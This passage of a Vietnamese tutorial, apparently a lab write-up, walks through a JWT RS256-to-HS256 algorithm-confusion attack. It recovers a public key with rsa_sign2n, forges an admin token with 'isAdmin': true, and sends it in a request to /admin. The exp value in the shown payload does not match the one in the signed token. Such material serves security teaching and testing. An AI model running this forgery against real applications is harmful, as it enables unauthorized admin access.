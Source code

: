 **Bước 2: Lấy khóa công khai**
- Khóa công khai thường được công khai trên website hoặc có thể được trích xuất từ chính JWT nếu biết các công cụ thích hợp.
- Hacker có thể sử dụng công cụ **rsa_sign2n** để tính toán khóa công khai từ các JWT đã thu thập được.

**Cách sử dụng `rsa_sign2n`:**
```bash
git clone https://github.com/silentsignal/rsa_sign2n
cd rsa_sign2n/standalone/
docker build . -t sig2n
docker run -it sig2n /bin/bash
```

- Hacker cung cấp cho công cụ hai JWT khác nhau được ký bởi cùng một khóa riêng. Công cụ sẽ tính toán và xuất ra khóa công khai.

**Ví dụ kết quả:**
```text
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAsZaSaPDmaxyds/NMppno
dUEWomQEdu+p57T4B7tjCZp0nRQk1HnOR8LuTztHn6U4ZKEHvHWGF7PxHHgtxrTb
7uhbwhsu3XVTcd1c/S2G9TCvW4WaF8uqNjgzUJEANsABGXHSVCuM7CLf2jWjVyWX
6w4dbyK3LNHvt/tkJspeGwx3wT1Gq2RpQ6n0+J/q6vxKBAc4z9QuzfgLPpnZFdYj
kZyJimyFmiyPDP6k2MZYr6rgiuUhCQQlFBL8yS94dITAoZhGIJDtNW9WDV7gOB8t
OgPrAdBM2rm8SmlNjsaHxIDec2E+qafCm8VnwSLXHXb9IDvLSTCqI+gOSJEGgTuT
VQIDAQAB
-----END PUBLIC KEY-----
```

**Bước 3: Tạo JWT giả mạo với HS256**
- Hacker tạo JWT giả mạo nhưng chỉ định thuật toán là **HS256** thay vì **RS256**.
- Họ sử dụng công cụ như **CyberChef**:
  - Chọn **JWT Sign**.
  - Đặt thuật toán là **HS256**.
  - Sử dụng khóa công khai như là khóa bí mật (secret key).

**Payload của JWT mới:**
```json
{
  "user": "htb-stdnt",
  "isAdmin": true,
  "exp": 1711186044
}
```

- JWT giả mạo sau khi ký:
```text
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjogImh0Yi1zdGRudCIsICJpc0FkbWluIjogdHJ1ZSwiZXhwIjoxNzExMzU2NTczfQ.Dq6bu6oNyTKStTD6YycB9EzmXoTiMJ9aKu_nNMLx7RM
```

**Bước 4: Gửi JWT giả mạo đến ứng dụng web**
- Hacker gửi JWT giả mạo trong yêu cầu HTTP để chiếm quyền admin.

**Yêu cầu HTTP:**
```http
GET /admin HTTP/1.1
Host: 172.17.0.2
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjogImh0Yi1zdGRudCIsICJpc0FkbWluIjogdHJ1ZSwiZXhwIjoxNzExMzU2NTczfQ.Dq6bu6oNyTKStTD6YycB9EzmXoTiMJ9aKu_nNMLx7RM
```

